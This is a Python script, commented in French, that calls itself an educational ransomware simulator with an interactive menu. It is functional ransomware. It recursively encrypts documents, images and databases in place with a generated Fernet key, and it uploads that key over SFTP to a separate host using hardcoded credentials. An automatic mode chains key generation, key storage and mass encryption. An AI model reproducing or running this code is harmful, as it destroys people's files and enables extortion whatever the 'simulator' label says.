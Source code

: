 #!/usr/bin/env python3
# SIMULATEUR RANSOMWARE AVEC MENU INTERACTIF
import os
import sys
import time
from pathlib import Path
from cryptography.fernet import Fernet
import paramiko
import logging
import subprocess
from getpass import getpass

# Configuration des couleurs
class Colors:
    RED = '\033[91m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    BLUE = '\033[94m'
    PURPLE = '\033[95m'
    CYAN = '\033[96m'
    END = '\033[0m'
    BOLD = '\033[1m'

# Configuration du logging
logging.basicConfig(
    level=logging.INFO,
    format=f'{Colors.BLUE}%(asctime)s{Colors.END} - {Colors.YELLOW}%(levelname)s{Colors.END} - %(message)s',
    handlers=[
        logging.FileHandler('/tmp/ransomware_sim.log'),
        logging.StreamHandler()
    ]
)
logger = logging.getLogger()

class RansomwareSimulator:
    def __init__(self):
        self.key = None
        self.cipher = None
        self.key_filename = f"key_{os.uname().nodename}.key"
        self.key_dir = "/home/doranco/Desktop/script/cle de dechiffrement"
        
        # Configuration SFTP (optionnelle)
        self.sftp_config = {
            'host': '192.168.45.61',
            'port': 22,
            'username': 'doranco',
            'password': 'doranco',
            'remote_dir': '/upload/keys'
        }

        # Extensions cibles
        self.target_exts = {
            '.txt', '.doc', '.docx', '.xls', '.xlsx', 
            '.pdf', '.jpg', '.png', '.sql', '.db'
        }

    def clear_screen(self):
        os.system('clear' if os.name == 'posix' else 'cls')

    def show_banner(self):
        self.clear_screen()
        print(f"""{Colors.RED}
    ██████╗  █████╗ ███╗   ██╗███████╗ ██████╗ ███╗   ███╗
    ██╔══██╗██╔══██╗████╗  ██║██╔════╝██╔═══██╗████╗ ████║
    ██████╔╝███████║██╔██╗ ██║███████╗██║   ██║██╔████╔██║
    ██╔══██╗██╔══██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║
    ██║  ██║██║  ██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║
    ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝
    {Colors.END}""")
        print(f"{Colors.CYAN}=== SIMULATEUR ÉDUCATIF - ENVIRONNEMENT DE TEST ==={Colors.END}\n")

    def generate_key(self):
        """Génère une nouvelle clé de chiffrement"""
        logger.info(f"{Colors.GREEN}Génération de la clé...{Colors.END}")
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
        logger.info(f"Clé générée: {Colors.YELLOW}{self.key.decode()[:12]}...{Colors.END}")
        return True

    def save_key_locally(self):
        """Sauvegarde la clé localement"""
        try:
            os.makedirs(self.key_dir, exist_ok=True)
            key_path = os.path.join(self.key_dir, self.key_filename)
            
            with open(key_path, 'wb') as f:
                f.write(self.key)
            
            logger.info(f"{Colors.GREEN}Clé sauvegardée dans {Colors.CYAN}{key_path}{Colors.END}")
            return True
        except Exception as e:
            logger.error(f"{Colors.RED}Erreur sauvegarde: {e}{Colors.END}")
            return False

    def send_key_sftp(self):
        """Envoie la clé via SFTP"""
        if not self.key:
            logger.error(f"{Colors.RED}Aucune clé générée!{Colors.END}")
            return False

        try:
            transport = paramiko.Transport((self.sftp_config['host'], self.sftp_config['port']))
            transport.connect(username=self.sftp_config['username'], password=self.sftp_config['password'])
            sftp = paramiko.SFTPClient.from_transport(transport)
            
            # Création dossier distant si inexistant
            try:
                sftp.mkdir(self.sftp_config['remote_dir'])
            except IOError:
                pass
            
            remote_path = f"{self.sftp_config['remote_dir']}/{self.key_filename}"
            
            # Création fichier temporaire
            tmp_path = f"/tmp/{self.key_filename}"
            with open(tmp_path, 'wb') as f:
                f.write(self.key)
            
            sftp.put(tmp_path, remote_path)
            os.remove(tmp_path)
            sftp.close()
            transport.close()
            
            logger.info(f"{Colors.GREEN}Clé envoyée à {Colors.CYAN}{self.sftp_config['host']}:{remote_path}{Colors.END}")
            return True
        except Exception as e:
            logger.error(f"{Colors.RED}Échec SFTP: {e}{Colors.END}")
            return False

    def encrypt_file(self, filepath):
        """Chiffre un fichier"""
        try:
            if os.path.getsize(filepath) > 50 * 1024 * 1024:  # 50MB max
                return False

            with open(filepath, 'rb') as f:
                data = f.read()
            
            encrypted = self.cipher.encrypt(data)
            
            with open(filepath, 'wb') as f:
                f.write(encrypted)
            
            logger.debug(f"Fichier chiffré: {filepath}")
            return True
        except Exception as e:
            logger.error(f"Erreur sur {filepath}: {e}")
            return False

    def encrypt_directory(self, path):
        """Chiffre récursivement un dossier"""
        if not os.path.exists(path):
            logger.error(f"{Colors.RED}Dossier introuvable: {path}{Colors.END}")
            return

        encrypted = errors = 0
        logger.info(f"{Colors.PURPLE}Début chiffrement de {path}{Colors.END}")
        
        for root, _, files in os.walk(path):
            for file in files:
                filepath = Path(root) / file
                
                if filepath.suffix.lower() not in self.target_exts:
                    continue
                
                if self.encrypt_file(filepath):
                    encrypted += 1
                else:
                    errors += 1
        
        logger.info(f"{Colors.GREEN}Terminé! {encrypted} fichiers chiffrés, {errors} erreurs{Colors.END}")

    def automatic_mode(self):
        """Mode automatique complet"""
        self.show_banner()
        print(f"{Colors.YELLOW}=== MODE AUTOMATIQUE ==={Colors.END}")
        
        # 1. Génération clé
        print(f"\n{Colors.CYAN}[1/3] Génération de la clé...{Colors.END}")
        self.generate_key()
        time.sleep(1)
        
        # 2. Sauvegarde locale
        print(f"{Colors.CYAN}[2/3] Sauvegarde de la clé...{Colors.END}")
        self.save_key_locally()
        time.sleep(1)
        
        # 3. Chiffrement
        print(f"{Colors.CYAN}[3/3] Chiffrement des fichiers...{Colors.END}")
        self.encrypt_directory('/chemin/a/chiffrer')  # Modifiez ce chemin
        time.sleep(1)
        
        print(f"\n{Colors.GREEN}Opération terminée avec succès!{Colors.END}")
        input("\nAppuyez sur Entrée pour continuer...")

    def show_menu(self):
        """Affiche le menu principal"""
        while True:
            self.show_banner()
            print(f"{Colors.BOLD}MENU PRINCIPAL:{Colors.END}")
            print(f"{Colors.GREEN}1.{Colors.END} Générer une clé")
            print(f"{Colors.GREEN}2.{Colors.END} Sauvegarder la clé localement")
            print(f"{Colors.GREEN}3.{Colors.END} Envoyer la clé via SFTP")
            print(f"{Colors.GREEN}4.{Colors.END} Chiffrer un dossier spécifique")
            print(f"{Colors.GREEN}5.{Colors.END} Mode automatique (tout faire)")
            print(f"{Colors.RED}0.{Colors.END} Quitter")
            
            choice = input("\nVotre choix: ")
            
            if choice == "1":
                self.generate_key()
            elif choice == "2":
                self.save_key_locally()
            elif choice == "3":
                self.send_key_sftp()
            elif choice == "4":
                path = input("Chemin du dossier à chiffrer: ")
                self.encrypt_directory(path)
            elif choice == "5":
                self.automatic_mode()
            elif choice == "0":
                print(f"{Colors.YELLOW}Au revoir!{Colors.END}")
                sys.exit(0)
            else:
                print(f"{Colors.RED}Choix invalide!{Colors.END}")
            
            input("\nAppuyez sur Entrée pour continuer...")

if __name__ == '__main__':
    try:
        sim = RansomwareSimulator()
        sim.show_menu()
    except KeyboardInterrupt:
        print(f"\n{Colors.RED}Interruption par l'utilisateur{Colors.END}")
        sys.exit(1)
    except Exception as e:
        logger.critical(f"{Colors.RED}ERREUR FATALE: {e}{Colors.END}")
        sys.exit(1)